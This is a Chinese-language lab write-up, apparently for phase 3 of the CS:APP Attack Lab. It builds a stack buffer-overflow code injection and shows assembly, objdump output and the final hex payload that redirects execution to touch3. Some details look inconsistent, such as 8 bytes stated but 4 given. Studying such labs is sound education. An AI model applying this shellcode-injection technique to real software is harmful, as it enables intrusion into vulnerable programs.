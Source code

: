 这里同样，可以看出来和上一次的`cookie`放在一个位置上。但是上次输入的是数字，这次输入的是字符串。因此，上次是将输入的值`%rdi`设置为`0x6044e4`位置的值。而这次`%rdi`指向输入的字符串，我们需要做的是将`%rdi`设置为`0x6044e4`。

此外，`touch3`的入口地址为`0x4018fa`。因此在最后需要让 return address 等于这个值。

那么总体的注入和上次遵循一样的步骤：

1. 让 return address 等于 buf 的开头(`0x5561dc78`)
2. 在 buf 开头插入赋值语句，让`%edi = 0x6044e4`
3. 让 return address = touch3 的入口地址(`0x4018fa`)
4. 调用`ret`

综上，这次的调用语句是：

```
    movl $0x6044e4,%edi
    subq $0x8,%rsp
    movl $0x4018fa,(%rsp)
    ret
    nop
    nop
    nop
    nop
```

将其保存在`ph3.s`中，输入`gcc -c ph3.s`生成`ph3.o`文件，再`objdump -d ph3.o > ph3.d`，生成`ph3.d`文件。

文件内容如下：

```

ph3.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	bf e4 44 60 00       	mov    $0x6044e4,%edi
   5:	48 83 ec 08          	sub    $0x8,%rsp
   9:	c7 04 24 fa 18 40 00 	movl   $0x4018fa,(%rsp)
  10:	c3                   	retq
  11:	90                   	nop
  12:	90                   	nop
  13:	90                   	nop
  14:	90                   	nop

```

那么其一直到`ret`的字节即为`bf e4 44 60 00 48 83 ec 08 c7 04 24 fa 18 40 00 c3`。一共 17 个字节。将其字节复制到`phase3.txt`的最前面。添加 23 个`nop`(`0x90`)凑齐 40 个字节，最后 8 个字节的值必须等于`0x5561dc78`。换成小端序就是`0x78 0xdc 0x61 0x55`。

完整字符串如下：

```
bf e4 44 60 00 48 83 ec 08 c7 04 24 fa 18 40 00 c3 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 78 dc 61 55
```
